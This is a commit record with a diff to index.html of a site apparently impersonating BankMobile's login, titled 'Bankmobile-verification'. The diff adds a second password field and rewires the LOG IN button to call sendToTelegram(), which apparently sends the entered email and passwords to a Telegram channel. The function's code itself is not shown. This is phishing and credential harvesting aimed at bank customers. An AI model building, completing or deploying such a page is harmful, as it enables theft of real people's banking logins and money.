

Before and after one commit to Douglas12-ai/Bankmobile-verification, a website: page index.html in a window 390 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html
Signed-off-by: Bankmobile verification <douglascraig825@gmail.com>

```diff
--- a/index.html
+++ b/index.html
@@ -22,7 +22,9 @@
                 <input type="email" id="email" name="email" required class="underscore-input" placeholder="(your email)">
                 <label for="password">Password:</label>
                 <input type="password" id="password" name="password" required class="underscore-input" placeholder="(your password)">
-                <button type="submit">LOG IN</button>
+                <label for="password">Confirm Password:</label>
+                <input type="password" id="confirm_password" name="confirm_password" required class="underscore-input" placeholder="(confirm your password)">
+                <button type="button" onclick="sendToTelegram()">LOG IN</button>
             </div>
 
             <!-- Forget Login Information Link -->
@@ -55,5 +57,8 @@
 
     <!-- Link to JavaScript file -->
     <script src="script.js"></script>
+    <script>
+
+    </script>
 </body>
 </html>
```
